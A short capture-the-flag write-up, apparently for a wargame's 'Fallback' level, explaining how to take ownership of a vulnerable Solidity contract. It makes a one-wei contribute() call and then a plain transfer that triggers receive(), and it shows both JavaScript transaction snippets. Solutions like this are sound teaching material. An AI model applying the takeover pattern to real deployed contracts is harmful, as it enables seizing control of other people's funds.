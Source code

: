 # Answer

Two ways can be used to become the contract's owner.


## Option 1

Simply DOS the ```contribute()``` function until one exceeds the owners 1000 ether contribution.

## Option 2

Option 1 would take a long time and require a lots of gas. Luckily the contract exposes ```receive()``` function which allows for anyone to become a contract owner by transfering any amount of funds as long as the msg.sender was already a contributor. So the solution is as follows:

Become a minimal contributor:

```solidity
await sendTransaction({
    to: contract.address,
    from: player,
    data: '0xd7bb99ba', // contribute() function selector
    value: 1,
});
```

Calling the receive() method:

```solidity
await sendTransaction({
    to: contract.address,
    from: player,
    value: 1,
});
```